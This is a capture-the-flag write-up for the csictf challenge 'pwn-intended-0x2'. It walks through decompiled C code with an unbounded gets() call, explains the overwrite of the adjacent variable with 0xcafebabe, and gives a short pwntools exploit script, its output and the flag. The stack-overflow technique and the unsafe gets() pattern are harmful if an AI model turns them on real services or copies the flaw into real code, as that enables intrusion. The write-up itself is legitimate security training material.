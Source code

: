 ## pwn-intended-0x2
The main idea finding the flag is overwrite the correct hex after padding.

#### Step-1:
After I downloaded `pwn-intended-0x2`, I reversed it with IDA, I got this source code:

```c
undefined8 main(void)

{
  char local_38 [44];
  int local_c;

  local_c = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to csictf! Where are you headed?");
  gets(local_38);
  puts("Safe Journey!");
  if (local_c == -0x35014542) {
    puts("You\'ve reached your destination, here\'s a flag!");
    system("/bin/cat flag.txt");
  }
  return 0;
}
```

#### Step-2:
`local_c` is checked for a hex value of `0xcafebabe`. Since the size of local array is 44, we have to write `0xcafebabe` after 44 bytes.

#### Step-3:
I wrote a very common `rev_exploit.py` to pwn into the machine.

```python
import pwn

r = pwn.remote('chall.csivit.com', 30007)

payload = "A"*44 + '\xbe\xba\xfe\xca'

r.sendline(payload)
r.interactive()
```

#### Step-4:
When I finally ran this `python3 rev_exploit.py`, I got this output:

```bash
[+] Opening connection to chall.csivit.com on port 30007: Done
[*] Switching to interactive mode
Welcome to csictf! Where are you headed?
Safe Journey!
You've reached your destination, here's a flag!
csictf{c4n_y0u_re4lly_telep0rt?}[*] Got EOF while reading in interactive 
$
[*] Interrupted
```
Voila! I got the flag there.

#### Step-5:
Finally the flag becomes:
`csictf{c4n_y0u_re4lly_telep0rt?}`